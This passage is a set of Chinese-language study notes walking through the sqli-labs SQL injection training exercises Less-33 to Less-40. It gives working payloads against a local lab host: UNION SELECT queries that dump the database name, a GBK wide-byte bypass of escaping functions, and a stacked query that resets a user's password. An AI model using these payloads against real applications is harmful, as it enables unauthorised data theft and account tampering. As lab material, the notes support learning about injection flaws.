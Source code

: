 换成了addslashes函数

函数返回在预定义字符之前添加反斜杠的字符串。
单引号（’）
双引号（"）
反斜杠（\）
NULL

绕过方式同上

## Less-34

post传参，绕过方式同上

## Less-35

数字型，直接注入

http://192.168.1.119:1235/sqli-labs/Less-35/?id=-1 union select 1,group_concat(database()),3--+

## Less-36

本关使用了`mysql_real_escape_string`函数

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329155406.png)

但是设置了gbk编码，那么就会存在宽字节注入。

http://192.168.1.119:1235/sqli-labs/Less-36/?id=-1%df'union select 1,group_concat(database()),3--+

## Less-37

post，同上

# Stacked Injections

## Less-38（堆叠注入

堆叠注入：https://blog.csdn.net/hxhxhxhxx/article/details/108921489

修改密码：http://192.168.1.119:1235/sqli-labs/Less-38/?id=1';update users set password='123456'where username='Dumb';

## Less-39

数字型，可以堆叠。但是因为没过滤，也可以用联合注入等

http://192.168.1.119:1235/sqli-labs/Less-39/?id=-1 union select 1,database(),3;

## Less-40

')
